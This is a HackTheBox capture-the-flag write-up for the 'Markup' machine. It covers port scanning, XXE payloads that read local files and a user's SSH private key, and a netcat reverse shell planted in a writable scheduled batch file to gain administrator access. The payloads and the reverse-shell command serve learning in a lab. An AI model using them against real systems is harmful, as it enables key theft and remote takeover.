








# HackTheBox - Markup Writeup


Box author | 

<!--more-->

## Enumeration

- Top 1000 ports scan

```bash
nmap -sC -sV -oN nmap/initial 10.10.10.49
```

- the result


- All ports scan

```bash
nmap -sC -sV -p- -oN nmap/all_ports 10.10.10.49
```

- the result



### Open Ports
- Well, both the Nmap scan result are the same
	- port 22/SSH
	- port 80/HTTP 
	- port 443/HTTPs


### Webpage
- Let's take a look at the webpage `HTTP`




- Look's like just a regular login page.
- We can try to login with `credentials` we've found from the `previous box` called `Included`
- Let's try it



- Success
- Now, time to `enumerate/play around` with this page.

### Order
- Well, I found out. We can order something on the `order page`
- Let's try ordering something
- the result



- Every time a user orders something it's always `pop up this message`.
- Let's try check `how this form handle the request`

### Burpsuite
- I'm gonna `intercept` the request by using `burpsuite`
- Then, send the request into `repeater tab`
- I found this body kinda weird at first.
- It's `doesn't look` like any `JSON` data


-  Then, I realize this is `XML [Extensible Markup Language]`
-  Well, I heard something about `XML injection` before
-  Let's try it

## XXE [XML External Entity Injection]


An `XML External Entity` attack is a type of attack against an application that parses XML input. </br>
This attack occurs when XML input containing a reference to an external entity is processed by a weakly configured XML parser. </br>
- Wikipedia - [XML external entity attack](https://en.wikipedia.org/wiki/XML_external_entity_attack)


- Source
    - [[YouTube]PwnFunction - XML External Entities (Explained)](https://www.youtube.com/watch?v=gjm6VHZa_8s)
    - [HackTricks - Xml External Entity](https://book.hacktricks.xyz/pentesting-web/xxe-xee-xml-external-entity#main-attacks)
    - [Portswigger - XXE](https://portswigger.net/web-security/xxe)

### New Entity
- I'm going to test if a simple `new ENTITY declaration` is working
- here's what the payload gonna looks like.
- Source
  - [HackTricks - Xml External Entity](https://book.hacktricks.xyz/pentesting-web/xxe-xee-xml-external-entity#main-attacks)

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY example "test"> ]>
<stockCheck>
<productId>&example;</productId>
<storeId>1</storeId>
</stockCheck>
```
- the result



- it is working

### Read File
- Now, Let's try to `read a file with it`
- So, I'm gonna insert this command

```xml
<?xml version = "1.0"?>
<!DOCTYPE foo [<!ENTITY example SYSTEM "file:///c:/windows/system32/drivers/etc/hosts"> ]>
<order>
    <quantity>
        1
    </quantity>
    <item>
        &example;
    </item>
    <address>
        Bed for sleeping of course
    </address>
</order>
```
 
- the result


- Wow! It works

## Foothold/Gaining Access
- Remember this machine has `SSH open`.
- Let's try to read the `SSH private key`
- Windows SSH key locate here: `C:\Users\USERNAME\.ssh\`

### SSH
- I'm gonna put this as a payload

```xml
<?xml version = "1.0"?>
<!DOCTYPE foo [<!ENTITY example SYSTEM "file:///c:/users/daniel/.ssh/id_rsa"> ]>
<order>
    <quantity>
        1
    </quantity>
    <item>
        &example;
    </item>
    <address>
        Bed for sleeping of course
    </address>
</order>
```

- the result


- WOW! we've got the private key
- Let's copy it and try login with SSH


Before we can log in. Make sure to change the permission of the key with the command
`chmod 600 <filename>`


- Now, Let's try login with this command

```bash
ssh -i <filename> daniel@10.10.10.49
```



- I'm in

### User Flag


### Log-Management
- Let's start to enumerate this machine
- I found kinda `sus` folder in the root directory
    - _<font color="yellow">maybe I don't know it's actually exists</font>_


- The folder called `Log-Management`
- Found the file name `job.bat` and see the content of that file


- So, I'm gonna assume this script for `clearing event log` and gonna `run automatically like UNIX cronjob`
-  `¯\__(ツ)_/¯`

### Checking File Permission

-  We can abuse this if we had the permission to change the content of the file
- Source
    - [Microsoft - wevutils](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/wevtutil)
    - [Microsoft - icacls](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/icacls)
    - [superuser - windows list file permission](https://superuser.com/questions/364083/windows-list-files-and-their-permissions-access-in-command-line)
    - [GeeksforGeeks - basic of batch scripting](https://www.geeksforgeeks.org/basics-of-batch-scripting/)

- I'm going to run this command

```bash
icacls job.txt
```



- we've got `full access` to that file
- remember we're still `daniel`
- Let's get the shell

## Privilege Escalation

### nc.exe
- Let's get the `reverse shell`.
- First, we need to upload `nc.exe` into the machine


> <font color="yellow">Windows do not come with nc installed. So, we need to upload it</font>


- First, let's start our `nc for listening to the connection`
- Then, put this payload in `job.bat`
```powershell
c:\log-management\nc.exe -e cmd.exe 10.10.14.43 9901
```


- the result
- we've got the `shell` and own the box



### Admin Flag


## Conclusion
I've learned a lot today. The XXE is so cool and it also can be dangerous if the input is not properly configured. Talk about "configure". The file admin can run also need to configure properly in this case file called job.bat. Once again, don't use the same password.

I have a fun time doing this machine and I hope you guys do too. Bye ;)
